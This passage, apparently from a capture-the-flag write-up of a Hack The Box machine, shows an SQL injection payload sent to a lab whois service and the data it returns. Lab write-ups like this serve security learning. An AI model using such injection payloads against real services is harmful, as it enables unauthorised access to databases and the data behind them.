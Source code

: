 ![Supersec hosting page](public/images/supersechosting.jpg "Supersec Hosting Page")

this way I can browse a website. Here, I got nothing so I had to search more about `whois` service. I made payload to inject sqli in whois service to extract the files from database as.

```
root@gr4n174:~$ whois -h 10.10.10.155 -p 43 "l33t') or 1=1#"
 SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 4 object
   Domain Name: SUPERSECHOSTING.HTB
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: http://www.supersechosting.htb
   Updated Date: 2018-02-21T18:36:40Z 
   Creation Date: 1997-09-15T04:00:00Z
   Registry Expiry Date: 2020-09-14T04:00:00Z
   Registrar: SuperSecHosting Inc.
   Registrar IANA ID: 292
   Registrar Abuse Contact Email: abusecomplaints@supersechosting.htb
   Registrar Abuse Contact Phone: +1.999999999
   Name Server: NS1.SUPERSECHOSTING.HTB
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2018-12-05T14:11:05Z <<<

For more information on Whois status codes, please visit https://icann.org/epp

NOTICE: The expiration date displayed in this record is the date the
registrar's sponsorship of the domain name registration in the registry is
currently set to expire. This date does not necessarily reflect the expiration
date of the domain name registrant's agreement with the sponsoring
registrar.  Users may consult the sponsoring registrar's Whois database to
view the registrar's reported date of expiration for this registration.

TERMS OF USE: You are not authorized to access or query our Whois
database through the use of electronic processes that are high-volume and
automated except as reasonably necessary to register domain names or
modify existing registrations; the Data in VeriSign Global Registry
```